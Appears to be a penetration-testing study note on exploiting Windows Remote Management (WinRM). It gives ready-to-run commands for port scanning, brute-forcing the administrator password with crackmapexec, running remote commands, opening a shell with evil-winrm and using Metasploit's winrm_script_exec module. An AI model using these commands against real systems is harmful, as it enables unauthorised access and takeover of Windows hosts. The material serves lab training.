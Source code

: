 ```yaml
---
up: "[[Exploiting Windows Vulnerabilities]]"
tools:
  - "[[crackmapexec]]"
  - "[[evil-winrm]]"
  - "[[Metasploit]]"
---
```

	
# Exploiting WinRM

- Windows Remote Management can be used to remote access with Windows systems over HTTP(S)
- Feature not enable by default
- Implemented in order to make life easier for system administrator
- Typically uses TCP 5985 and 5986 (HTTPS)

## Exploiting WinRM

- Implements access control and security for communication
- ``crackmapexec`` can be used to brute-force users and passwords on WinRM as well as execute commands on the target
- Also there is ``evil-winrm`` a ruby script used to obtain a command shell session

## Demonstration

```bash
nmap -sV -p- $TRG
```

By default nmap is not searching for port 5985 or 5986.

```bash
crackmapexec winrm $TRG -u administrator -p unix_passwords.txt
```

Execute commands:

```bash
crackmapexec winrm $TRG -u administrator -p <password> -x "whoami"
```

Obtain shell session:

```bash
evil-winrm.rb -u administrator -p '<password>' -i $TRG
```

### Using Metasploit

```bash
> use exploit/windows/winrm/winrm_script_exec
> set RHOSTS $TRG 
> set FORCE_VBS true
> set USERNAME administrator
> set PASSWORD <password>
```

It may not work first try.

